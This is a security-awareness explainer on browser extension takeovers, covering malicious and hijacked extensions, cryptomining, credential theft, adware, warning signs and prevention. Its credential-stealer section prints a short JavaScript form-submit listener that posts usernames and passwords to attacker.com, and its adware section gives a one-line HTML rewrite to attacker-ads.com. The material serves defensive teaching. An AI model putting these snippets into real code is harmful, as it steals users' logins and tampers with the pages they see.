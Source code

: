 <br>

# Browser Extension Takeovers
Browser extension takeovers **occur when malicious actors exploit vulnerabilities or manipulate browser extensions to gain unauthorized access, install malicious scripts, or hijack browser behavior**. These attacks can result in **cryptocurrency mining, credential theft, and adware injection, impacting user security and privacy**.

## 1. How Browser Extension Takeovers Happen
1. **Malicious Extensions**
  - Attackers create or distribute browser extensions containing malicious code.
  - Example
    - An extension claiming to improve performance but secretly mining cryptocurrency.
2. **Compromised Legitimate Extensions**
  - Attackers take control of a trusted extension via:
    - **Developer Account Hijacking**: Compromising the extension developer’s credentials.
    - **Supply Chain Attacks**: Injecting malicious updates into the extension’s source code.
  - Example
    - The “Copyfish” extension was compromised in 2017 after attackers hijacked the developer’s credentials.
3. **Exploiting Permissions**
  - Extensions often request excessive permissions (e.g., full access to websites, clipboard, or storage).
  - Example
    - Extensions requesting  

```
"permissions": ["*://*/*", "storage", "tabs"]
```

4. **Third-Party Libraries**
  - Extensions may rely on third-party libraries that contain vulnerabilities or backdoors.
5. **Browser Updates**
  - Attackers exploit outdated browsers or extensions not patched for security flaws.  
<br>

## 2. Types of Attacks Using Browser Extensions

### a. Cryptocurrency Miners
  - Inject scripts that silently mine cryptocurrencies like Monero using the victim’s CPU resources.
  - Impact
    - Slows down system performance.
    - Increases energy consumption.
  - Example
    - A malicious extension injects Coinhive scripts to mine cryptocurrency when the browser is active.

### b. Credential Stealers
  - Extensions with access to input fields, cookies, or browser storage steal:
    - Login credentials.
    - Session tokens.
    - Payment information.
  - Techniques
    - Capturing keystrokes or form submissions.
    - Extracting session cookies for account takeovers.
  - Example  

```
document.addEventListener('submit', (e) => {
    fetch('https://attacker.com/steal', {
        method: 'POST',
        body: JSON.stringify({ username: e.target.username.value, password: e.target.password.value })
    });
});
```

### c. Adware Injection
  - Extensions inject malicious ads, pop-ups, or redirect traffic to earn revenue from affiliate networks.
  - Impact
    - Alters legitimate website content.
    - Redirects users to phishing or malware-laden websites.
  - Example
    - Replacing ads on example.com with attacker-controlled ads  

```
document.body.innerHTML = document.body.innerHTML.replace(/adnetwork\.com/g, 'attacker-ads.com');
```  
<br>

## 3. Indicators of Compromised Extensions
1. **High CPU Usage**
  - Sudden spikes in CPU usage, even when idle, could indicate cryptomining.
2. **Unexpected Ads or Pop-Ups**
  - Ads appearing on websites that normally don’t display them.
3. **Unauthorized Behavior**
  - Redirections to unknown websites.
  - Requests for unexpected permissions.
4. **Slow Browser Performance**
  - Compromised or malicious extensions may slow browsing activity due to mining or data exfiltration.
5. **New Unknown Extensions**
  - Extensions you didn’t install appearing in your browser.  
<br>

## 4. Preventing Browser Extension Takeovers

### a. Limit Extension Permissions
  - **Least Privilege Principle**
    - Only install extensions with minimal permissions necessary for their functionality.
  - **Review permissions like**
    - Access to all sites or Read and change data on all websites.

### b. Use Trusted Extensions
  - Install extensions only from **trusted sources**
    - Chrome Web Store, Mozilla Add-ons.
  - Check user reviews, ratings, and the number of downloads.

### c. Regularly Audit Extensions
  - Periodically review installed extensions and remove unused or suspicious ones.

### d. Enable Automatic Updates
  - Keep both browsers and extensions updated to patch known vulnerabilities.

### e. Monitor Extension Behavior
  - Use tools to analyze extensions
    - CRXcavator: Audits Chrome extensions for risks.
    - Privacy Badger: Blocks trackers and malicious scripts.

### f. Use Security Solutions
  - Implement security tools that:
    - Detect malicious browser extensions.
    - Prevent unauthorized script execution.

### g. Be Cautious of Developer Abandonment
  - Extensions abandoned by developers may get hijacked and updated with malicious code.  
<br>

## 5. Example Scenario: Malicious Extension Hijacking
1. Original Scenario
  - User installs a legitimate “ad blocker” extension with 5-star reviews.
2. Attack
  - The attacker compromises the developer’s account and pushes a malicious update.
  - The update includes a script to mine cryptocurrency in the background.
3. Result
  - Users experience high CPU usage and slower system performance.
  - Their browser silently connects to an attacker-controlled mining pool.  
<br>

## 6. Summary

| Attack Type | Description | Impact |
| ----------- | ----------- | ------ |
| Cryptocurrency Miners | Uses CPU power to mine crypto without user consent. | Slows system, increases energy usage. |
| Credential Stealers | Steals passwords, cookies, and tokens via input monitoring. | Account takeovers, data theft. |
| Adware Injection | Injects ads or redirects traffic to malicious sites. | Alters content, phishing, revenue fraud. |

**Browser extension takeovers pose a significant security risk, enabling attackers to inject miners, steal credentials, or display malicious ads**. By carefully managing permissions, auditing extensions, and staying vigilant about unusual behavior, users and organizations can reduce the risk of extension-related attacks. Security awareness and proper hygiene are key to preventing these takeovers.  
<br>